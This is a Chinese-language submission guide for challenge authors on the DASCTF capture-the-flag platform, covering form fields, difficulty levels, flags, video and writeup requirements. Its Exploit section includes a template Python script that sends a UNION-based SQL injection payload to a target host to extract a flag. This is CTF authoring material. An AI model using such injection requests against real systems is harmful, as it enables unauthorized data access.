# 填写指南
题目名
---

题目的名字，尽量多样化，避免 ez，baby 等名词简单堆砌。


题目附件
----

题目的附件，会在选手解题时提供给选手，请以 zip 格式压缩后上传。


容器文件
----

对于 CLD 题来说，必须要有环境文件。

请按照 [外部出题-虚拟机镜像制作要求](/分类出题指南/2. 外部出题-虚拟机镜像制作要求.html) 进行虚拟机制作，然后上传一个内含百度云分享链接到此处。


题目标签
----

**在选择题目标签之前，请先按照“题目类型”处所示步骤，选择正确的题目分类。**

请点击“+ New Tag”按钮来新增标签。


选择与题目对应的知识点标签。



添加完一个标签后，可以继续点击“+ New Tag”按钮来添加下一个标签。




注意：可以使用AI来选择标签！在下面将解题思路上传之后，可以点击AI标签按钮来让AI自动选择题目匹配的知识点标签。

有无提示
----

如有需要给到选手的提示，请点开这个开关，然后在提示栏输入要给出的提示，语言要精简。



题目难度
----

选择匹配的题目难度。

对于ETH题目来说，难度定义如下：

*   入门：涉及到 1 个知识点，选手平均解题所需时间约20分钟左右。
*   简单：涉及到 1~2 个知识点，选手平均解题所需时间约40分钟左右。
*   中等：涉及到 2~3 个知识点，选手平均解题所需时间约60分钟左右。
*   困难：涉及到 3~4 个知识点，选手平均解题所需时间约90分钟左右。

依据题目难度选择对应的难度即可，最终评价难度以审核人审核为准。


Flag类型
------

对于ETH题来说选择 静态Flag，填写flag即可。

          flag只需要填写 DASCTF{} 括号里的内容即可，比如 flag 是 DASCTF{xxxxx}，那么只需要填写 xxxxx 即可。



题目类型
----

选择“CLD（云安全）”即可。


题目步骤
----

点击“+ New Step”按钮即可添加新的步骤。


多次点击“+ New Step”按钮可以多次添加步骤。



请在此处以简洁精炼的语言说明题目的解题步骤，**不可直接拷贝解题思路里的文段**！

题目描述
----

这里的文字是选手解题的时候展示给选手的描述性文字，便于选手了解题目大致的考察内容。



备注
--

这里的文字是展示给审核员查看的文字，出题人可以在此处给审核人一些说明。最终选手解题的时候不会看到这里的文字。



题目源码
----

需要在此处把环境中所有的程序源码投递一份。



Exploit
-------

Exp脚本，请务必按照此格式编写 EXP，接收 目标IP，目标端口，预期FLAG 三个参数，**如写死这些参数，直接不通过！**

**所有CLD题目都需要提交EXP脚本！**

```python
#!/usr/bin/python
#  -*- coding: utf-8 -*-
import re
import sys
import requests

# 输入为靶机 IP 和端口以及要验证的 flag
HOST = sys.argv[1]
PORT = sys.argv[2]
FLAG = sys.argv[3]

# exp 函数
def exp(ip, port):
    # 构造 Payload
    payload = "3 union select 1,flag from flag limit 1"

    # 请求靶机
    r = requests.get("http://%s:%s/?id=%s" % (ip, port, payload))
    # print(r.text)

    # 匹配 FLAG
    match_group = re.findall("DASCTF{(.*?)}", r.text)
    flag = match_group[0]

    return flag


# 主逻辑
if __name__ == '__main__':
    flag = exp(HOST, PORT)
    # print(flag)
    # 比较得出的 flag 是否是想要的 flag
    assert flag == FLAG
    print("Pass!")
```



Checker
-------

此处不需要，忽略即可。



解题视频
----

题目的解题视频文件，要求必须是 mp4 格式。

要求：

1.  视频尺寸必须为屏幕尺寸，帧率30+，码率2000 kbps+。
2.  视频有配音解说，解说要覆盖所做的每个步骤。**没有声音的视频会被直接打回！**

推荐OBS [https://obsproject.com/](https://obsproject.com/) 来进行录制，配置如下。





WriteUp
-------

题目的解题思路文件，请务必按照下面的格式使用 Markdown 详细填写。

要求：

1.  图片需要使用指定图床  [https://img.dasctf.com/](https://img.dasctf.com/) [DASCTF 图床系统 PicGo 快速配置指南](/平台使用/4. 图床/2. DASCTF 图床系统 PicGo 快速配置指南.html) 上传。
2.  必须涵盖解题所需的每一个步骤，多个步骤不能合成一个步骤来写。
3.  每一个步骤必须使用一张截图/一个公式/一段代码来配合解释，**过于简略的解题思路会被直接打回！**
4.  **模板里所有信息都要自己修改好。包含题目信息、FLAG、知识点、解题步骤。**

模板：

````markdown
# cld1 的解题思路

## 题目信息

| 题目名 | 类型 | 难度 |
| ------ | ---- | ---- |
| cld1   | CLD | 入门 |

## FLAG

* 动态flag（**ps: 这里如果是静态flag，就填“DASCTF{xxxxxxx}”格式的正确flag即可**）


## 知识点

1. 区块链安全


## 解题步骤

这里详细写 WriteUp 即可，这很重要，不详细写可能会被打回。

1. 步骤xxxxx，达成xxxx。


2. 步骤xxxxx，达成xxxx。

```python
```

3. 步骤xxxxx，达成xxxx。


公式配图

````